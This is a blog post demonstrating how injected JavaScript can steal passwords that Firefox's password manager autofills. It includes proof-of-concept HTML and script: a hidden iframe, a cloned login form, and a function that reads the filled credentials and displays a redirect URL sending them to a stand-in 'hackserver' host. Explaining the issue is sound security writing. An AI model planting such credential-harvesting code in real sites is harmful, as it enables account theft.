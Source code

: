 ```yaml
---
layout: post
title: Demonstrating Password Manager Almost Vulnerability in FireFox
tags:
- javascript
- security
---
```


The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

First off, we have legitimate site here with its login form:

**index.php**

{% highlight HTML %}
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
    Username: <input type="text" name="username"></input><br></br>
    Password: <input type="password" name="password"></input><br></br>
    <input type="submit"></input>
</form>
{% endhighlight %}


And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**login.php**

{% highlight PHP %}
<?php
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
{% endhighlight %}


and my logged in page.

**loggedin.php**

{% highlight HTML %}
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
{% endhighlight %}

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**hack.php**

{% highlight HTML %}
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
{% endhighlight %}



In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

{% highlight HTML %}
<html>
    <body onload="stealit()">
        <form action="login.php" name="login" method="post">
            Username: <input type="text" name="username"></input><br></br>
            Password: <input type="password" name="password"></input><br></br>
        </form>
        <script>
        function stealit()
        {
            var username=document.login.username.value;
            var password=document.login.password.value;
        
            alert("I am gonna do this:  self.location.href='http://hackserver.php?username=" + username + "&amp;password=" + password + "'");
        }
        </script>
    </body>
</html>
{% endhighlight %}

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
